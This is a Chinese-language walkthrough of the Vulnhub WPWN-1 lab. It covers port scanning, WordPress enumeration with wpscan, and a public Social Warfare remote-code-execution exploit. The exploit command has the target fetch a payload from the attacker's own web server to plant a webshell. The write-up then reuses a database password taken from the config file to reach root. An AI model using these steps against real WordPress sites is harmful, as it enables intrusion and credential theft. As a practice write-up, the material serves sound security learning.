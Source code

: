 ```yaml
---
layer: article
title: Vulnhub	537 SO WPWN-1
tags: pentest vulnhub Walkthrough
---
```

考点：dirsearch,wordpress,sudo,id_rsa

靶机链接：<https://www.vulnhub.com/entry/wpwn-1,537/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| WPWN-1     | 10.0.2.39 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.39
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

### WEB测试

#### dirsearch

发现wordpress目录，看来是搞wordpress了

![1](https://static.iihack.com/vulnhub/537/1.jpg)

#### wpscan

```bash
$ wpscan --url http://10.0.2.39/wordpress --api-token ******************************************* -e
```

![2](https://static.iihack.com/vulnhub/537/2.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)
```bash
$ python2  46794.py -t http://10.0.2.39/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/537/3.jpg)

### 用户权限

查看wordpress数据库配置

![4](https://static.iihack.com/vulnhub/537/4.jpg)

获得密码`R3&]vzhHmMn9,:-5`

查看/home文件夹发现用户 `takis`

![5](https://static.iihack.com/vulnhub/537/5.jpg)

登录成功

## 提权

![6](https://static.iihack.com/vulnhub/537/6.jpg)

获得root权限

### 彩蛋

这里root.txt找flag的过程中发现还有个彩蛋

![7](https://static.iihack.com/vulnhub/537/7.jpg)



关联[vulnhub515](https://www.iihack.com/2020/07/17/vulnhub-515.html)